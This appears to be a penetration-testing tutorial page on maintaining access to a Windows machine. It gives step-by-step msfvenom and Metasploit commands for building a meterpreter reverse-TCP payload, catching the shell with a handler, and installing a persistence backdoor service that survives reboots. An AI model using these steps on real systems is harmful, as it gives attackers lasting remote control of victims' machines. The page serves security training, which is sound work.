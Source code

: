 # Maintaining Access

### Introduction

There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for now.

***

### Generating a Payload w/ msfvenom

1. `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell
2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler` - this will create a listener on the port that you set it on.
4. Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`
5. After setting your IP address as your "LHOST", start the listener with run
6. Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that
7. Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.

***

### Run the Persistence Module

1. `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want
2. `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the sessions command in metasploit to list the active sessions)&#x20;

<figure><img src="../../../../../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to windows/meterpreter/reverse\_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.

<figure><img src="../../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.

There are other ways of maintaining access such as adding users and rootkits.

***
